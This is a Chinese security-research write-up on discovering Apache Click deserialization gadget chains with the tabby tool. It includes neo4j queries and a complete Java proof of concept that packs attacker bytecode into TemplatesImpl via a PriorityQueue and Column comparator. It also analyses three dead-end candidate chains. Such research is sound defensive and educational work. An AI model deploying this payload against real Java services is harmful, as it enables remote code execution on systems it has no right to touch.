# apache click反序列化漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/17447  
> **文章ID**: 17447

---

**依赖环境**  
org.apache.click:click-nodeps:2.3.0  
javax.servlet:javax.servlet-api:3.1.0  
jdk8u201

**使用工具**  
tabby:2.0  
tabby-vul-finder.jar  
neo4j  
tabby idea插件（个人觉得挺好用的，直接通过图跳转到对应函数，节省了不少时间，具体使用参考：<https://www.yuque.com/wh1t3p1g/tp0c1t）>

**思路**  
查看现有链子  
直接引用ysoserial中的反序列链：

```
Chain:

    java.util.PriorityQueue.readObject()
      java.util.PriorityQueue.heapify()
        java.util.PriorityQueue.siftDown()
          java.util.PriorityQueue.siftDownUsingComparator()
            org.apache.click.control.Column$ColumnComparator.compare()
              org.apache.click.control.Column.getProperty()
                org.apache.click.control.Column.getProperty()
                  org.apache.click.util.PropertyUtils.getValue()
                    org.apache.click.util.PropertyUtils.getObjectPropertyValue()
                      java.lang.reflect.Method.invoke()
                        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
                        ...
```

使用tabby内置的sink规则进行查询，查看一次调用到sink点invoke的链路，

```
MATCH path=((m1:Method)-[:CALL*1]->(m:Method{IS_SINK:true,NAME:"invoke"}))

where m1.CLASSNAME starts with "org.apache.click"

RETURN path LIMIT 10
```



从这条链路开始往下寻找，首先明确当前的条件：  
一是起点方法为readObject  
二是若方法实现了接口，则需要显式添加alias关系，否则链路会断掉  
三是找到链路的优先级要高于判断起点方法是否为readObject方法

**实践**  
最终写出如下查询：

```
MATCH (m1:Method{IS_SERIALIZABLE:true}) WHERE m1.CLASSNAME STARTS WITH 'org.apache.click'

MATCH path=((m3:Method)-[:CALL*1..7]->(m2:Method)-[:ALIAS*1]->(m1)-[:CALL*1..5]->(m:Method{IS_SINK:true,NAME:'invoke'}))

WHERE m3.NAME='readObject'

RETURN path LIMIT 100
```

为了有更多的结果，将limit设置成100  


这里不方便观看，从idea中下载插件显示：



这里可以看的click1链已经被查询了：（标注一下）



这里解释一下查询语句，观察整个调用链，在siftDownUsingComparator中，是通过PriorityQueue的成员变量this.comparator调用的，所以这里直接call是无法继续链接的，需要alias关系，因此在整个调用链中需要添加，其他的直接call就行了，需要设定一个readObject方法限制



根据上面的调用关系构造poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.io.*;
import java.lang.reflect.Field;
import java.math.BigInteger;

import java.util.Comparator;

import java.util.PriorityQueue;

public class Main {
    public static void main(String[] args) throws Exception {
        FileInputStream inputFromFile = new FileInputStream("F:\javaproject\click_unser\out\production\click_unser\Test.class");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bs});
        setFieldValue(obj, "_name", "TemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final Column column = new Column("lowestSetBit");
        column.setTable(new Table());
        Comparator comparator = column.getComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));
        column.setName("outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("1.ser"));
        objectOutputStream.writeObject(queue);
        objectOutputStream.close();
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("1.ser"));
        objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

**其他尝试**  
再分析一下刚才图中另外几个出发点：  
**javax.management.MBeanInfo（javax.management.MBeanFeatureInfo）**  
看这个调用方向：  
  
javax.management.MBeanInfo#readObject  
  
到javax.management.ImmutableDescriptor#ImmutableDescriptor(java.lang.String[], java.lang.Object[])  
  
到javax.management.ImmutableDescriptor#makeMap(java.lang.String[], java.lang.Object[])  
  
这里fieldNames和fieldValues是可控的，在MBeanInfo构造函数中将ImmutableDescriptor实例传入即可，ImmutableDescriptor实例通过fieldNames和fieldValues构造  
到java.util.TreeMap#put  
  
到java.util.TreeMap#compare  
  
在原来的利用链中，comparator是我们构造传入的org.apache.click.control.Column$ColumnComparator，这样就能调用恶意的方法，但是这里TreeMap是通过

```
 SortedMap<String, Object> map =
                new TreeMap<String, Object>(String.CASE_INSENSITIVE_ORDER);
```

实例化的，无法修改它的值，即不能设置为ColumnComparator，无法利用，且org.apache.click.control.Column$ColumnComparator.compare()需要一个对象，而不是String

**com.sun.jndi.ldap.LdapName**  
重点看这里：  
  
com.sun.jndi.ldap.LdapName.Rdn#add  
  
到com.sun.jndi.ldap.LdapName.TypeAndValue#compareTo  
  
到java.lang.String#compareToIgnoreCase  
  
显然也是无法利用

**java.net.URLPermission**  
直接看java.net.URLPermission#readObject  
  
到java.net.URLPermission#init  
  
参数不可控，无法利用

**总结**  
以上内容只能是抛砖引玉，反序列化链挖掘还有很多值得我们去探究
